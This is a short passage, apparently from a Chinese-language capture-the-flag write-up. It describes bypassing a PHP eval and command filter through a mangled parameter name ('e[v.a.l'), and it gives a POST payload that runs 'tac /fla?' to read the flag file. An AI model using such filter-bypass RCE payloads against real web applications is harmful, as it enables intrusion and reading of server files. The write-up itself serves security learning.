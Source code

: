 因此此处传入的变量名是 `e[v.a.l`;

之后是对 RCE 的 bypass, 这里有很多函数没 ban, 比如反引号, `tac`, `more`, `tail` 等等, payload:

```
(POST)
password=apofox&e[v.a.l=echo(exec(%22tac%20/fla?%22));
```

![62-2.png](62-2.png)

爆出 flag;

